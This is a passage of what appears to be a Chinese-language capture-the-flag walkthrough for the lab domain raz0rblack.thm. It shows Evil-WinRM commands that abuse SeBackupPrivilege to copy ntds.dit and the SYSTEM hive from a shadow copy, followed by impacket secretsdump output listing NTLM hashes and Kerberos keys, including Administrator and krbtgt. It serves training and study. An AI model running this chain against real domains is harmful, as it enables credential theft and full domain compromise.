 ```

Number of shadow copies listed: 1
-> expose %someAlias% h:
-> %someAlias% = {29b531e8-3c00-49f9-925d-5e1e3937af13}
The shadow copy was successfully exposed as h:\.
```

现在让我们滥用的特权。为此，我们需要几个`dll`文件，可以从 [**这里**](https://github.com/giuliano108/SeBackupPrivilege) 下载。下载后，我们需要以下面的方式执行它，然后下载散列。

```
*Evil-WinRM* PS C:\tmp> upload SeBackupPrivilegeUtils.dll

*Evil-WinRM* PS C:\tmp> upload SeBackupPrivilegeCmdLets.dll

*Evil-WinRM* PS C:\tmp> import-module .\SeBackupPrivilegeUtils.dll

*Evil-WinRM* PS C:\tmp> import-module .\SeBackupPrivilegeCmdLets.dll

*Evil-WinRM* PS C:\tmp> copy-filesebackupprivilege h:\windows\ntds\ntds.dit C:\tmp\ntds.dit -overwrite

*Evil-WinRM* PS C:\tmp> reg save HKLM\SYSTEM C:\tmp\system

*Evil-WinRM* PS C:\tmp> download ntds.dit

*Evil-WinRM* PS C:\tmp> download system
```

现在转储哈希值。

```
- python3 /opt/impacket/examples/secretsdump.py -system system -ntds ntds.dit LOCAL **Administrator:500:aad3b435b51404eeaad3b435b51404ee:9689931bed40ca5a2ce1218210177f0c:::**
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HAVEN-DC$:1000:aad3b435b51404eeaad3b435b51404ee:26cc019045071ea8ad315bd764c4f5c6:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:fa3c456268854a917bd17184c85b4fd1:::
raz0rblack.thm\xyan1d3:1106:aad3b435b51404eeaad3b435b51404ee:bf11a3cbefb46f7194da2fa190834025:::
raz0rblack.thm\lvetrova:1107:aad3b435b51404eeaad3b435b51404ee:f220d3988deb3f516c73f40ee16c431d:::
raz0rblack.thm\sbradley:1108:aad3b435b51404eeaad3b435b51404ee:351c839c5e02d1ed0134a383b628426e:::
raz0rblack.thm\twilliams:1109:aad3b435b51404eeaad3b435b51404ee:351c839c5e02d1ed0134a383b628426e:::
[*] Kerberos keys from ntds.dit 
Administrator:aes256-cts-hmac-sha1-96:ab77c0dd6f5a28b63c4ae5f0eb89ad48f3ed43d52dc42f1dca2e99d8fc9cdbbf
Administrator:aes128-cts-hmac-sha1-96:81a749369e929b7f1731489b12a49df8
Administrator:des-cbc-md5:d3b646b65bceb5c7
HAVEN-DC$:aes256-cts-hmac-sha1-96:d6b41169e02a4543b90a8c697b167948413397c30f1bf5f0199a54f387358fc6
HAVEN-DC$:aes128-cts-hmac-sha1-96:5ed5bd57484ca826e09afa6e5b944c27
HAVEN-DC$:des-cbc-md5:f71a0dc89b9d079d
krbtgt:aes256-cts-hmac-sha1-96:eed4acbdf1b6cc2b3c1aef992a8cea74d8b0c4ad5b4deecf47c57c4d9465caf5
krbtgt:aes128-cts-hmac-sha1-96:3dbbd202aa0343d1b8df99785d2befbb
krbtgt:des-cbc-md5:857a46f13e91eae3
raz0rblack.thm\xyan1d3:aes256-cts-hmac-sha1-96:6de380d21ae165f55e7520ee3c4a81417bf6a25b17f72ce119083846d89a031f
raz0rblack.thm\xyan1d3:aes128-cts-hmac-sha1-96:9f5a0114b2c18ea63a32a1b8553d4f61
raz0rblack.thm\xyan1d3:des-cbc-md5:e9a1a46223cd8975
raz0rblack.thm\lvetrova:aes256-cts-hmac-sha1-96:3809e38e24ecb746dc0d98e2b95f39fc157de38a9081b3973db5be4c25d5ad39
raz0rblack.thm\lvetrova:aes128-cts-hmac-sha1-96:3676941361afe1800b8ab5d5a15bd839
raz0rblack.thm\lvetrova:des-cbc-md5:385d6e1f1cc17fb6
raz0rblack.thm\sbradley:aes256-cts-hmac-sha1-96:ddd43169c2235d3d2134fdb2ff4182abdb029a20724e679189a755014e68bab5
raz0rblack.thm\sbradley:aes128-cts-hmac-sha1-96:7cdf6640a975c86298b9f48000047580
raz0rblack.thm\sbradley:des-cbc-md5:83fe3e584f4a5bf8
```